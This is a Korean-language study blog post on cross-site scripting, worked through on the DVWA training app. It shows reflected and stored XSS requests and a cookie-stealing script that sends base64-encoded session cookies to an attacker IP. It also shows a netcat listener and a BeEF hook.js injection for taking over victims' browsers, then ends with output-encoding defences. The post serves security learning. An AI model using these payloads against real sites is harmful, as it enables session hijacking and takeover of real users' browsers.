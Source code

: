 ```yaml
---
layout: post
title: "XSS 공부"
date: 2025-09-28 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

XSS(Cross-Site Scripting)는 공격자가 웹 애플리케이션에 악성 스크립트를 삽입하여 다른 사용자의 브라우저에서 해당 스크립트가 실행되도록 만드는 공격이다. 이 공격은 [A03: Injection](https://hamap0.github.io/projects/owasp-top-10/2025/08/27/A03_Injection.html) 보고서에서 다룬 인젝션 공격의 한 종류이며 주로 세션 쿠키 탈취 등에 사용된다.

---

### 2. 기본 유형 및 실습

#### **Reflected XSS (반사형)**

Reflected XSS는 사용자의 입력이 서버를 거쳐 즉시 응답 페이지에 반영될 때 발생한다.  
DVWA의 `XSS (Reflected)` 페이지는 `name` 파라미터의 값을 별도의 검증 없이 HTML 응답에 삽입한다.

다음과 같은 요청을 전송하면

```
GET /vulnerabilities/xss_r/?name=<script>alert('Reflected%20XSS')</script> HTTP/1.1
Host: dvwa.local
```

서버는 입력값을 그대로 포함한 응답을 반환한다.

```html
<h1>Hello <script>alert('Reflected XSS')</script>!</h1>
```

브라우저는 이 HTML을 파싱하면서 `<script>` 태그를 실행하고 경고창을 표시한다.  
이 공격은 URL에 의존하므로, 공격자는 피싱 링크를 통해 피해자를 유도할 수 있다.

---

#### **Stored XSS (저장형)**

Stored XSS는 공격 페이로드가 서버의 데이터베이스나 파일 시스템에 영구적으로 저장된 후,  
해당 페이지를 방문하는 모든 사용자에게 전달될 때 발생한다.

DVWA의 `XSS (Stored)` 페이지는 방명록 메시지를 데이터베이스에 저장한 뒤,  
모든 방문자에게 동일한 HTML로 출력한다.

공격자가 다음 메시지를 등록하면,

```html
<script>alert('Stored XSS')</script>
```

서버는 이를 저장하고, 이후 페이지 접근 시 다음과 같은 구조로 응답한다.

```html
<div class="guestbook-post">
  <script>alert('Stored XSS')</script>
</div>
```

이 경우, 해당 페이지를 방문하는 모든 사용자의 브라우저에서 스크립트가 실행된다.  
공격 범위가 Reflected XSS보다 훨씬 넓다는 점에서 위험성이 크다.

---

### 3. 심화 활용: 쿠키 탈취

XSS 취약점은 사용자의 세션 쿠키를 탈취하여 계정을 도용하는 세션 하이재킹 공격에 사용될 수 있다.

1. **공격자 리스너 준비**  
   공격자는 Netcat을 사용해 HTTP 요청을 수신하는 리스너를 실행한다.  
   ```bash
   sudo nc -lvnp 80
   ```

이 명령은 80번 포트에서 들어오는 연결을 대기합니다.

2. **쿠키 탈취 페이로드 작성**  
   다음 스크립트는 현재 도메인의 쿠키를 읽어 공격자 서버로 전송한다.  
   ```javascript
   <script>
     document.location = 'http://192.9.200.12/?cookie=' + btoa(document.cookie);
   </script>
   ```  
   - `document.cookie`: 현재 세션의 모든 쿠키를 반환  
   - `btoa()`: 특수문자로 인한 URL 파싱 오류를 방지하기 위해 Base64 인코딩 수행  

3. **페이로드 주입 및 실행**  
   위 스크립트를 Stored XSS 취약점에 삽입하면, 피해자가 페이지를 방문할 때마다 브라우저가 자동으로 다음 요청을 보낸다.
   ```
   GET /?cookie=c2VjdXJpdHk9bG93OyBQSFBTRVNTSUQ9YWJjMTIz HTTP/1.1
   Host: 192.9.200.12
   User-Agent: Mozilla/5.0 ...
   ```

4. **쿠키 복원**  
   공격자는 수신된 Base64 문자열을 디코딩해 실제 쿠키 값을 확인할 수 있다.  
   ```bash
   echo "c2VjdXJpdHk9bG93OyBQSFBTRVNTSUQ9YWJjMTIz" | base64 -d
   # 출력: security=low; PHPSESSID=abc123
   ```  
   이 값을 자신의 브라우저에 주입하면 피해자의 세션으로 로그인할 수 있다.

---

### 4. 심화 활용 2: 브라우저 제어권 획득 (BeEF 연동)

XSS 공격의 파급력은 쿠키 탈취에 그치지 않는다. **BeEF(The Browser Exploitation Framework)**와 연동하면 피해자의 브라우저를 좀비처럼 제어하여 추가 공격을 수행할 수 있다.

1. **BeEF 실행**  
   공격자는 다음 명령으로 BeEF를 시작한다.  
   ```bash
   sudo beef-xss
   ```  
   BeEF는 기본적으로 `http://192.9.200.12:3000/ui/panel`에서 관리자 인터페이스를 제공하며,  
   Hook 스크립트 URL은 다음과 같다.
   ```html
   <script src="http://192.9.200.12:3000/hook.js"></script>
   ```

2. **Hook 스크립트 주입**  
   이 스크립트를 Stored XSS 취약점에 삽입하면
   방문자의 브라우저는 자동으로 `hook.js`를 로드하고 BeEF 서버에 연결된다.

3. **브라우저 제어**  
   BeEF 관리자 패널의 `Online Browsers` 탭에서는 연결된 브라우저의 다음 정보를 확인할 수 있다.
   - IP 주소  
   - 운영체제  
   - 브라우저 종류 및 버전  

   공격자는 `Commands` 탭에서 다양한 모듈을 실행할 수 있다.
   - **Get Cookies**: `document.cookie` 값을 수집  
   - **Redirect Browser**: 특정 URL로 강제 이동  
   - **Create Alert Dialog**: 사용자에게 경고창 표시  

   이러한 기능은 추가적인 사회공학 공격이나 정보 수집에 활용된다.

---

### 5. 방어 방안: 출력 인코딩

XSS를 방어하는 가장 효과적인 방법은 **모든 사용자 입력을 출력 시 인코딩**하는 것이다.  
브라우저가 입력값을 HTML 태그나 스크립트로 해석하지 못하도록,  
특수문자를 안전한 HTML 엔터티로 변환해야 한다.

예를 들어, 다음 문자는 다음과 같이 인코딩되어야 한다.
- `<` → `&lt;`  
- `>` → `&gt;`  
- `&` → `&amp;`  
- `"` → `&quot;`  
- `'` → `&#039;`  

PHP에서는 `htmlspecialchars()` 함수를 사용해 이를 처리할 수 있다.
```php
echo htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8');
```  

이렇게 인코딩된 출력은 브라우저에서 **단순 텍스트로만 표시**되며,  
스크립트 실행이나 태그 해석이 발생하지 않는다.

<hr class="short-rule">